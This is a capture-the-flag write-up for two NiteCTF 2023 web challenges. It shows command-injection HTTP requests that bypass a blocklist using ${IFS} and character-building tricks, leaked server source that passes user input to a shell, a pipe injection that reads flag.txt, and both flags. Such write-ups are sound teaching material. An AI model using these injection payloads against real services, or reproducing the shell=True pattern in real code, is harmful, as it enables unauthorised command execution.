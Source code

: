 ```yaml
---
toc: true
title: "NiteCTF 2023"
description: NiteCTF
pubDate: 2023-12-18
author: Duc Anh Nguyen
draft: true
---
```


## Web
<div style="border-bottom: 3px solid grey;"></div>

### **[caas_renewed](http://caas.web.nitectf.live)**
There is a cowsay service running, it takes user input from the `GET URL: /cowsay/{input}`. Cleary there is a command injection vulnerability. But there are some filters and also restrictions for the input, I was able to extract the source code of the server using the following payload:

```http
GET /cowsay/a;cd${IFS}-;cat${IFS}ma* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

<details>
<summary><b>SourceLeak.py</b></summary>

```python
from fastapi import FastAPI
from fastapi.staticfiles import StaticFiles
from fastapi.responses import PlainTextResponse
import subprocess
import time
import os
from uvicorn.workers import UvicornWorker


# remove server header
# gunicorn  -k main.ServerlessUvicornWorker main:app -b "0.0.0.0:1337" --access-logfile '-'
class ServerlessUvicornWorker(UvicornWorker):
    def __init__(self, *args, **kwargs):
        self.CONFIG_KWARGS["server_header"] = False
        super().__init__(*args, **kwargs)


TIMEOUT = 5
SLEEP_TIME = 0.1
DEBUG = False

BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]

BLACKLIST.append("/")
BLACKLIST.append("\\")
BLACKLIST.append(" ")
BLACKLIST.append("\t")
BLACKLIST.append("\n")
BLACKLIST.append("tc")

ALLOW = [
    "{",
    "}",
    "[",
    "pwd",
    "-",
    "if",
    "tac",
    "ac",
    "cd",
    "tree",
    "ls",
    "echo",
    "tee",
    "touch",
    "mkdir",
    "dir",
    "mv",
    "chmod",
    "ping",
]

for a in ALLOW:
    try:
        BLACKLIST.remove(a)
    except ValueError:
        pass


def isClean(input):
    input = input.lower().strip()
    if any(x in input for x in BLACKLIST):
        if DEBUG:
            for i in BLACKLIST:
                if i in input:
                    print("Banned reason:", i)
                    break
        return False
    return True


def timeout(proc):
    count = 0
    while proc.poll() == None:
        time.sleep(SLEEP_TIME)
        count += SLEEP_TIME
        if count > TIMEOUT:
            proc.terminate()


app = FastAPI()
api = FastAPI()

pwd = os.path.dirname(os.path.realpath(__file__))

app.mount("/cowsay", api)
#app.mount("/", StaticFiles(directory="{}/static".format(pwd), html=True))

#os.chdir("/usr/games")


@api.get("/{user_input}")
def response(user_input):
    if not isClean(user_input):
        cmd = "cowsay {}".format("'Whoops! I cannot say that'")

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )
        output = p.communicate()[0]

        return PlainTextResponse(output)
    else:
        cmd = "cowsay {}".format(user_input)

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )

        timeout(p)

        if DEBUG:
            try:
                output = "\n".join(x.decode() for x in p.communicate())
            except (UnicodeDecodeError, AttributeError):
                try:
                    output = p.communicate()[1].decode()
                except:
                    output = p.communicate()[1]

        else:
            output = p.communicate()[0].decode()

        if DEBUG:
            print("OUTPUT:", output)

        if len(output):
            return PlainTextResponse(output)

        else:
            if "denied" in output:
                cmd = "cowsay {}{}".format('"permission denied"', user_input)
            else:
                cmd = "cowsay {}{}".format(
                    '"Oops! Something went wrong. You said "', user_input
                )

            p = subprocess.Popen(
                cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
            )

            output = p.communicate()[0]

        return PlainTextResponse(output)
```
</details>

Knowing the logic behind blacklisting characters now, it is easy to spin up a payload to print out the flag

- `pwd|c'u't${IFS}-c1`: Get the first character of the command pwd, which is pwd
- ban=\`echo${IFS}t\`: Set the variable ban to t (which is one of the blacklisted characters)
- `cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f*`: Print the flag.

```http
GET /cowsay/a;slash=`pwd|c'u't${IFS}-c1`;ban=`echo${IFS}t`;cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```


```http
Flag:

HTTP/1.1 200 OK
date: Mon, 18 Dec 2023 10:04:21 GMT
content-length: 180
content-type: text/plain; charset=utf-8
Connection: close

 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```


### [Eraas](!http://eraas.web.nitectf.live/)
Command injection in user input:

```http
POST / HTTP/1.1
Host: eraas.web.nitectf.live
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eraas.web.nitectf.live
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eraas.web.nitectf.live/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

user_input=1745291415|cat flag.txt
```

**Flag:**
`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

